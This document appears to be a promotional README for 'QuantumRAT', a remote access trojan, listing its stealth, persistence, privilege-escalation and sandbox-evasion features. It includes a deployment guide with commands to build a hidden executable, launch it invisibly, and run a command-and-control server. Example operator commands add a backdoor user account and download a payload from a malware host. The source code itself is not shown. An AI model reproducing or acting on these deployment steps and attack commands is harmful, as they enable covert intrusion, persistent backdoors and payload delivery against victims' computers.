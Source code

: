 QuantumRAT
By MR MONSIF H4CK3R

Nuclear Features
Quantum Encryption Protocol

Hybrid RSA-4096 + AES-256-CBC encryption

Per-session key rotation

SSL-pinned command channel

Stealth Deployment System

Process hollowing via trusted binaries

Registry + scheduled task persistence

Hidden console window (zero UI)

Anti-forensic self-destruct

God Mode Execution

Full system command execution

Privilege escalation to SYSTEM

Background process injection

Auto-reconnect with exponential backoff

Advanced Evasion Tactics
VM/sandbox detection (10+ techniques)

Debugger detection (IsDebuggerPresent)

Behavioral analysis countermeasures

Encrypted string obfuscation

Military-Grade C2 Server
SSL-pinned communications

Threaded client handling

Real-time command execution

Session key management

Execution Workflow
Diagram

Code

Deployment Guide

Generate Certificates
bash
Copy
Edit
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
Compile RAT
bash
Copy
Edit
pip install pyinstaller pycryptodome

pyinstaller --onefile --noconsole --add-data "server.crt;." --upx-dir=./upx QuantumRAT.py
Launch C2 Server
bash
Copy
Edit
python QuantumC2.py
Deploy RAT
powershell
Copy
Edit
Start-Process -WindowStyle Hidden .\dist\QuantumRAT.exe
Command Center Operations Examples
shell
Copy
Edit
QuantumRAT> whoami /all  
nt authority\system  

QuantumRAT> net user /add BackdoorUser P@ssw0rd!  
Command completed successfully.  

QuantumRAT> powershell -c "Start-BitsTransfer -Source http://malware.com/payload.exe -Destination C:\Windows\Temp\payload.exe"
Evasion Techniques
Process Hollowing: Runs within legitimate Windows processes

Code Obfuscation: Encrypted strings + polymorphic structure

Network Camouflage: Mimics HTTPS traffic patterns

Persistence Diversity: Triple-redundant startup methods

Anti-Analysis: Terminates in sandboxed environments

Why Undetectable?
Zero disk writes after installation

Memory-only payload execution

Legitimate certificate pinning

Behavioral pattern randomization

No suspicious API calls

WARNING: THIS CYBERWEAPON VIOLATES INTERNATIONAL LAWS

MR MONSIF DISAPPEARS INTO THE QUANTUM FIELD


